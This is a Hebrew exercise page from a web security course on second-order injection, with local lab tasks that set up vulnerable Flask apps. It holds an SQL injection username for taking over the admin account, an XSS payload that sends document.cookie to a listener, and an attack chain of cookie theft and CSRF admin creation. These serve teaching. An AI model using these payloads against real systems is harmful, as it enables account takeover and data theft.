

repository: AmitPinchasi/amittech · page: מחקר-אתרים-מתקדם/3 - הזרקות מתקדמות/3.6 - חולשות מסדר שני/3.6 - חולשות מסדר שני - תרגיל/index.html · generator: mkdocs

# חולשות מסדר שני - תרגיל

## תרגיל 1 - Second-Order SQLi

PortSwigger Lab: **SQL injection with filter bypass via XML encoding**

### משימות

1. הקימו סביבה מקומית עם Flask ו-SQLite
2. צרו מערכת הרשמה והתחברות עם הקוד הפגיע מההרצאה
3. הירשמו עם שם המשתמש: `admin'--`
4. התחברו עם המשתמש הזה
5. שנו סיסמה - ובדקו מה קרה לסיסמת admin המקורי
6. התחברו כ-admin עם הסיסמה החדשה
7. תעדו את כל התהליך

## תרגיל 2 - Second-Order XSS

### משימות

1. הקימו אפליקציה עם מערכת פרופילים ופאנל ניהול
2. הירשמו עם שם תצוגה שמכיל payload של XSS:

```
<img src=x onerror="fetch('http://localhost:8888/?c='+document.cookie)">
```

3. גשו לפאנל הניהול שמציג את כל המשתמשים
4. וודאו שה-XSS מופעל
5. כעת תקנו את הקוד ובדקו שהתיקון עובד

## תרגיל 3 - זיהוי נקודות injection

### משימות

בהינתן אפליקציה עם הפונקציונליות הבאה:
- הרשמה (שם, אימייל, ביוגרפיה)
- העלאת קבצים
- תגובות על מוצרים
- פאנל ניהול שמציג פעילות משתמשים
- דוחות יומיים שנשלחים במייל

מפו את כל נקודות הinjection האפשריות למתקפות מסדר שני:

1. לכל נקודת קלט - רשמו איפה הנתון נשמר
2. לכל נתון שמור - רשמו איפה הוא מוצג/משמש
3. לכל זוג קלט-פלט - קבעו איזה סוג payload מתאים (SQLi, XSS, SSTI, Command Injection)
4. דרגו את הסיכון של כל זוג

## תרגיל 4 - chaining חולשות

### משימות

1. הקימו אפליקציה שפגיעה ל-Second-Order XSS
2. השתמשו ב-XSS כדי:
   - לגנוב cookie של מנהל
   - ליצור משתמש admin חדש (דרך CSRF)
   - לחלץ מידע מפאנל הניהול

3. תעדו את כל שרשרת התקיפה:

```
Step 1: register with an XSS payload in the display name
Step 2: an admin views the user list
Step 3: XSS fires - the cookie is sent to the attacker
Step 4: the attacker uses the cookie to access the panel
Step 5: the attacker extracts sensitive information
```

## תרגיל 5 - Second-Order Command Injection
